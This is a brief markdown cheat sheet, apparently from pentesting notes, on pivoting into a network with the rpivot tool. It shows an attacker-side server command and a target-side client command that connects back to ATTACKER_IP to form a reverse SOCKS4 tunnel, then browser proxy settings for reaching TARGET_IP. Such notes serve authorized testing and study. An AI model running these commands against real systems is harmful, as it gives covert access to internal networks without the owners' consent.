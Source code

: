 # Rpivot

## Github repo: https://github.com/klsecservices/rpivot.git

## SOCKS4 proxy

### 1) Attacker

    python server.py --server-port 9999 --server-ip ATTACKER_IP --proxy-ip 127.0.0.1 --proxy-port 1080 

### 2) Target

    python client.py --server-ip ATTACKER_IP --server-port 9999 

### Now go to the web browser, then go to "Connections Settings"

#### 1) Manual proxy configuration

#### 2) On "SOCKS Host", write 127.0.0.1 on port 1080

#### 3) Click the "SOCKS v4" radio button

#### 4) On "No proxy for", write 127.0.0.1

#### 5) Browse to TARGET_IP
